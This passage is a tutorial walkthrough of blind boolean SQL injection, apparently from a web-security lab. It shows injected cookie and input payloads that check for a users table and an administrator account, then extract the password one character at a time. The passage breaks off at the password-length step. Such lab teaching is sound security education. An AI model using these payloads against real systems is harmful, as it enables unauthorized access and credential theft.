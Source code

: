 For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, we start with the following input:

``xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm``

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:

``xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't``

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

``xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's``

We can continue this process to systematically determine the full password for the Administrator user.

### Example:
Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is 

``TrackingId=xyz.``

Modify the TrackingId cookie, changing it to:

``TrackingId=xyz' AND '1'='1``

Verify that the "Welcome back" message appears in the response.

Now change it to:

``TrackingId=xyz' AND '1'='2``

Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

Now change it to:

``TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a``

Verify that the condition is true, confirming that there is a table called users.

Now change it to:

``TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a``

Verify that the condition is true, confirming that there is a user called administrator.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

``TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a``

